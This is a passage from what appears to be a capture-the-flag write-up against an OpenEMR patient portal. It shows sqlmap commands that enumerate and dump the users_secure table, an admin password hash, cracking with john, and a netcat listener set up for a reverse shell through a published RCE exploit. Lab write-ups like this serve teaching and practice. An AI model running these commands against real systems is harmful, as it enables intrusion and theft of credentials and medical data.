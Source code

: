 ```bash
$ sqlmap -r portal.req --dbs
[...]
available databases [2]:
[*] information_schema
[*] openemr
[...]
```

Two databases come back, but only one will contain useful information, the "openemr" database. Let's continue and see what tables are available.

```bash
$ sqlmap -r portal.req -D openemr --tables
[...]
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
[...]
```

Great, a few tables are available here, but the most promising one may be "users_secure" which will potentially have some usernames and passwords. Let's dump it with `sqlmap`.

```bash
$ sqlmap -r portal.req -D openemr -T users_secure --dump
[...]
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
[...]
```

We receive the openemr_admin credentials with a password hash. Let's crack it with `john`.

![](/assets/img/posts/htb/07-2020-3/john.png)

The password for the openemr_admin user is xxxxxx. This will allow us to successfully log in, but from our earlier research, we found that there is an [authenticated remote code execution](https://www.exploit-db.com/exploits/45161) vulnerability.

We'll use this to open a reverse shell to our attack box. Let's start a `netcat` listener.

```bash
$ nc -lvnp 4444
```
